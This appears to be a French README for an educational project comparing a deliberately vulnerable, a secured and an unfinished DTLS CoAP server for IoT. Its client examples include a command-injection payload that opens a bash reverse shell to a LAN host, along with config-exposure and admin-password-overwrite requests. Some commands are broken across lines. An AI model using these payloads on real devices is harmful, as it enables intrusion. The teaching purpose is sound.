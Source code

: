 # Serveurs CoAP pour l'IoT - Exemples de Sécurité

Ce projet contient trois implémentations de serveurs CoAP (Constrained Application Protocol) pour l'Internet des Objets (IoT), chacune avec différents niveaux de sécurité. Ces implémentations sont destinées à des fins éducatives pour comprendre les vulnérabilités courantes et les bonnes pratiques de sécurité dans les applications IoT.

## Aperçu des serveurs

1. **Serveur vulnérable** (`vulnerable_coap_server.py`) : 
   - Version avec de nombreuses vulnérabilités
   - Ne pas utiliser en production !
   - Utile pour démontrer les risques de sécurité

2. **Serveur sécurisé** (`secure_coap_server.py`) :
   - Version avec authentification par jetons
   - Validation des entrées
   - Gestion sécurisée des configurations sensibles

3. **Serveur DTLS** (`dtls_coap_server.py`) :
Nous ne sommes pas parvenus à le faire fonctionner, mais il est inclus pour référence.
   - Tentative d'ajout du chiffrement DTLS (Datagram TLS)
   - Utilise des clés pré-partagées pour l'authentification
   - Combine chiffrement des communications avec certaines des vulnérabilités du premier serveur

## Prérequis

- Python 3.13 (version avec laquelle le code a été testé)
- Bibliothèque aiocoap
- Bibliothèque tinydtls pour la version DTLS

Installation des dépendances :
```bash
pip install aiocoap
```

## Utilisation

### Démarrage des serveurs

Choisissez un des serveurs selon vos besoins :

```bash
# Serveur vulnérable (port 5683)
python vulnerable_coap_server.py

# Serveur sécurisé avec authentification (port 5683)
python secure_coap_server.py

# Serveur avec chiffrement DTLS (ports 5683 et 5684)
python dtls_coap_server.py
```

### Accès aux ressources

Les trois serveurs exposent des ressources similaires :

- `/sensors/temperature` - Données de température
- `/sensors/sound` - Données sonores
- `/sensors/presence` - Données de présence
- `/sensors` - Toutes les données des capteurs
- `/config` - Configuration du serveur

Le serveur sécurisé ajoute :
- `/auth` - Authentification et génération de jetons
- `/status` - État du serveur

### Exemples d'utilisation

#### Avec un client CoAP comme `coap-client` :

Pour le client, nous avons utilisé la librairie libcoap.

```bash
# Installation de libcoap (si nécessaire)
git clone https://github.com/obgm/libcoap
cd libcoap
sudo apt install libtool
./autogen.sh
sudo apt install doxygen
sudo apt install asciidoc
./configure --disable-dtls # Pour la version avec le serveur vulnérable
# ou
./configure --enable-dtls # Pour la version DTLS
sudo make
sudo make install
sudo make all
```

Requêtes de test client vers serveur avec `coap-client` depuis le répertoire `libcoap/examples` :

```bash
# Requête GET sur le serveur non sécurisé
./coap-client -m get "coap://192.168.2.76:5683/sensors/presence"

# Requête PUT sur le serveur vulnérable
./coap-client -m put -e '{"value": 9999, "unit": "Test", "device_id": "temp1"}' coap://192.168.2.76:5683/sensors/temperature

# Requête POST sur le serveur vulnérable avec injection de commande
./coap-client -m post -e "bash -c 'bash -i >& /dev/tcp/192.168.2.26/444
4 0>81'" coap://192.168.2.76:5683/sensors/temperature

# Authentification sur le serveur sécurisé
./coap-client -m post -t json -e '{"username": "admin", "password": "ad
min_password"}' coap://192.168.2.76:5683/auth

# Requête avec token d'authentification
./coap-client -m get coap://192.168.2.76:5683/sensors/temperature?token
=votre_token_ici"
```

## Comparaison des fonctionnalités de sécurité

| Fonctionnalité | Serveur vulnérable | Serveur sécurisé | Serveur DTLS |
|----------------|--------------------|--------------------|--------------|
| Authentification | ❌ | ✅ (Tokens) | ✅ (DTLS PSK) |
| Chiffrement | ❌ | ❌ | ✅ |
| Validation des entrées | ❌ | ✅ | ❌ |
| Protection contre injection | ❌ | ✅ | ❌ |
| Gestion sécurisée des configs | ❌ | ✅ | ❌ |

## Vulnérabilités à tester (serveur vulnérable)

1. **Injection de commandes** : 
   ```
   coap-client -m post -e 'ls -la' coap://localhost:5683/sensors/temperature
   ```

2. **Exposition de données sensibles** :
   ```
   coap-client -m get coap://localhost:5683/config
   ```

3. **Modification non autorisée de configuration** :
   ```
   coap-client -m put -e '{"admin_password":"hacked"}' coap://localhost:5683/config
   ```

## Avertissement

Ce code est fourni uniquement à des fins éducatives et de recherche. Ne déployez pas les versions vulnérables sur des réseaux de production.

